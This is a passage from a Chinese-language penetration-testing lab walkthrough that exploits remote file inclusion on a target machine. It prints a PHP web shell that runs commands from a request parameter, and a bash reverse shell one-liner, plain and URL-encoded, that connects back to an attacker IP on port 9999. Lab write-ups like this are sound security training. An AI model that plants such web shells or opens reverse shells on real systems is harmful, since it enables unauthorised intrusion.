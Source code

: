 那么就在`kali`本地创建一个`php`文件，使得其远程包含该文件，然后导致反弹`shell`

这里先写一个简单的`php`代码，可执行`system`的命令

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

把这个代码写入`shell.php`文件，然后再`kali`中，使用`python`开启一个`http`服务，观察是否可行

**注意，一定不要把`kali`中的`http`服务关闭，因为远程代码执行需要调用的**

![](pic-bravey\44.jpg)

可以看到，我们的代码确实通过远程执行了，所以这里就直接通过传参`cmd`反弹`shell`

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#需要进行url编码
bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.10.6%2f9999%200%3e%261
```

![](pic-bravey\45.jpg)

# 提权

## 靶机内信息收集
